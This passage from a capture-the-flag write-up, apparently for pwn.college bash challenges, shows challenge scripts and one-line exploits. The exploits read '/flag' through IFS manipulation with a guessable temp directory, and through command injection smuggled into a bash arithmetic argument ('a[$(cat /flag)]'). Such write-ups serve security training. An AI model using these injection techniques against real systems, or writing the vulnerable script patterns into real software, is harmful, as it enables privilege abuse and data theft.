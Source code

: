 ```sh
	echo "Only 'fortune' is supported right now!"
	exit 3
else
	cp /usr/games/fortune $WORKDIR
	PROGRAM="$WORKDIR/fortune"
fi

[[ "$1" = *PROGRAM* ]] && exit 4
declare -- "$1"="$2"
$PROGRAM
```

### exploit
```sh
echo "cat /flag" > /tmp/tmp && chmod +x /tmp/tmp
for in in {0..100}; do /challenge/run IFS 1 fortune; done | grep pwn
```
temporary directory is created with '/tmp/tmpXXXXXXX' pattern, out of 100 attempts, one could be created with first X equal to '1'.

# Tale of the Test

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

if [[ "$#" -ne 1 ]]
then
	echo "Usage: $0 SKILL_LEVEL"
	exit 1
fi

if [[ "$1" -eq 1337 ]]
then
	echo "Not skilled enough!"
	exit 2
fi

echo "You are quite skilled!"
```

### exploit
```sh
/challenge/run "a[\$(cat /flag)]"
```
TODO

# Masquerade of the Self
